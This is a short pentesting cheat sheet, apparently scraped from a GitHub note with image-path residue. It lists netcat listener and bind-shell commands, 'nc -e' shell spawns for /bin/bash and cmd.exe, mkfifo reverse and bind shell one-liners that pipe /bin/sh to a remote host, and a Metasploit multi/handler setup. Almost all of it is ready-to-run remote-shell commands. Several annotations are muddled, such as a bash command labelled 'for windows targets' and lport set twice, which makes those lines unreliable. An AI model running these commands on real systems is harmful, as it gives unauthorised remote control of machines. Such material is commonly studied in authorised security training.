 <h3>netcat</h3>

`nc -nvlp <port assigned in payload>`
OR
`nc -nvlp <port> -e /bin/bash ` **spawns shell on the attacker using target** **machine**
OR
`nc -lvnp <port> -e "cmd.exe"`  **spawns cmd on the attacker using target** **machine**`
OR
`rlwrap nc -nvlp <port> -e /bin/bash` **for windows targets**

<h5>bind netcat</h5>
must have listener already setup
`nc <ip address> <port> -e /bin/bash`
OR
![file:///tmp/.9CYK32/1.png](file:///tmp/.9CYK32/1.png)

<h5>attacker (bind)</h5>
`mkfifo /tmp/f; nc -lvnp <lport> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`
<h5>attacker (reverse)</h5>
`mkfifo /tmp/f; nc <lhost> <lport> < /tmp/f | /bin/sh >/tmp/f 2>&1; rm /tmp/f`


<h3>msfconsole listener</h3>

use exploit/multi/handler
set lhost <interface or local ip>
set lport <desired port>
set rhost <target ip>
set lport <target port>
run